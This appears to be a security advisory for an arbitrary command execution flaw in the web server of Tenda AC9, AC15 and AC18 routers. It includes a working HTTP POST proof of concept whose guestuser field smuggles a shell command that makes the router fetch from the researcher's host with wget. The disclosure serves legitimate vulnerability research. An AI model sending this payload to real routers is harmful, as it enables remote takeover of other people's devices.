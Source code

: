 vendor:Tenda

product:AC9 AC15 AC18

version:V15.03.06.42_multi(AC9)，V15.03.05.19(6318)_CN(AC9) and earlier

type:Arbitrary Command Execution

author:Li Yuan Cheng

institution:School of Computer and Cyberspace@Communication University of China

Vulnerability description
-------------------------
I found an `Arbitrary Command Execution` vulnerability in the router's web server--httpd. While processing the `guestuser` parameters for a post request, the value is directly passed to doSystem, which causes a rce. The details are shown below:
![image](imgs/rce1/rce1.png)

PoC
-------------------------

```
POST /goform/SetSambaCfg HTTP/1.1
Host: 192.168.0.1
Proxy-Connection: keep-alive
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.61 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh-TW;q=0.9,zh;q=0.8,en-US;q=0.7,en;q=0.6
Cookie: password=hwrmji
Content-Length: 154

password=111111&premitEn=0&internetPort=21&action=delelte&usbName=1&guestpwd=guest&guestuser=;wget http://192.168.0.198:8888;&guestaccess=r&fileCode=UTF-8
```

While `action`!=`del`,after the first request is sent, the `guestuser` will be set to `;wget http://192.168.0.198:8888;`, and the router will read the value of `guestuser` for the second send, and then execute `wget http ://192.168.0.198:8888`. `192.168.0.198` is our native computer's ip, then we use nc to listen port 8888, finally we capture http request from `192.168.0.1`, as shown in the figure below.

We tested the vulnerability on a real device, the picture may be a bit fuzzy, but I recorded a video, you can view the specific triggering process of the vulnerability through [the video](video/rce1.video)

![image](imgs/rce1/rce2.png)

[Watch the operation video](video/rce1.video)

